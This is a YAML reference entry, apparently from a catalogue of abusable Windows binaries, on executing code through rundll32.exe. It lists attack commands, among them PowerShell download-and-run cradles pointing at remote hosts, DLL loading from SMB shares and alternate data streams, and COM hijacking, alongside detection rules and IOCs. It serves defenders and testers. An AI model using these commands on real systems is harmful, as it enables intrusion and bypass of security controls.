 ```yaml
---
Name: Rundll32.exe
Description: Used by Windows to execute dll files
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rundll32.exe AllTheThingsx64,EntryPoint
    Description: AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.
    Usecase: Execute dll file
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
    Description: Use Rundll32.exe to execute a DLL from a SMB share. EntryPoint is the name of the entry point in the .DLL file to execute.
    Usecase: Execute DLL from SMB share.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');")
    Description: Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
    Description: Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.
    Usecase: Proxy execution
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
    Description: Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.
    Usecase: Execute code from Internet
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
    Description: Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
    Usecase: Execute code from alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rundll32.exe -sta {CLSID}
    Description: Use Rundll32.exe to load a registered or hijacked COM Server payload.  Also works with ProgID.
    Usecase: Execute a DLL/EXE COM server payload or ScriptletURL code.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10 (and likely previous versions), Windows 11
Full_Path:
  - Path: C:\Windows\System32\rundll32.exe
  - Path: C:\Windows\SysWOW64\rundll32.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/network_connection/sysmon_rundll32_net_connections.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rundll32_activity.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml
  - IOC: Outbount Internet/network connections made from rundll32
  - IOC: Suspicious use of cmdline flags such as -sta
Resources:
  - Link: https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
  - Link: https://bohops.com/2018/06/28/abusing-com-registry-structure-clsid-localserver32-inprocserver32/
  - Link: https://github.com/sailay1996/expl-bin/blob/master/obfus.md
  - Link: https://github.com/sailay1996/misc-bin/blob/master/rundll32.md
  - Link: https://nasbench.medium.com/a-deep-dive-into-rundll32-exe-642344b41e90
  - Link: https://www.cybereason.com/blog/rundll32-the-infamous-proxy-for-executing-malicious-code
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Sailay
    Handle: '@404death'
  - Person: Martin Ingesen
    Handle: '@Mrtn9'
---
```

